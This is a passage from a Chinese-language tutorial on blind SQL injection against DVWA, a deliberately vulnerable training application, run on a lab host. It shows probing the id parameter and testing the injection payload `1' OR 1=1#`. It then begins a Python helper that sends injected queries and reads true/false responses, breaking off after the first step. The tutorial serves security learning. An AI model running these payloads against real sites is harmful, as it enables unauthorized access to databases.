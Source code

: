 现在我们将安全性设置为低，我们可以在左侧菜单中点击 **SQL Injection (Blind)** 并在编写 python 脚本之前查看 DVWA 的漏洞。

从这里我们可以推断出一堆信息，让我们看看是什么。

首先，我们可以尝试插入一个随机值，看看结果，比如用“1”试试

![](img/9fec0f19b098a4d837a632e26e1c1270.png)

如果我们对更大的数字如“100”做同样的处理，结果是:

![](img/5b87978bd835fe026fb8b538d6a1bcfe.png)

通过查看浏览器栏中的 URL，我们看到类似这样的内容:

`[http://10.10.201.172/vulnerabilities/sqli_blind/?id=100&Submit=Submit#](http://10.10.201.172/vulnerabilities/sqli_blind/?id=100&Submit=Submit#)`

这表明该查询是作为一个 [HTTP GET 请求](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods)传递的。

在处理代码之前，最后一条信息是检查输入是否易受攻击。

我们试着插入:`1' OR 1=1#`

它表示用户存在，因此我们可以清楚地看到漏洞的存在。

# 步骤 1:检查查询结果

即使它应该是一个快速脚本，我们也不想重复自己，所以我们可以定义一个函数来构建查询，调用服务器，如果服务器给我们一个肯定的响应，则返回 **true** ，否则返回 **false** 。

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        response = s.get(f"{sqli_blind_url}?id={concrete_query}&Submit=Submit#")
        parser = DVWASQLiResponseParser(response)
        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```
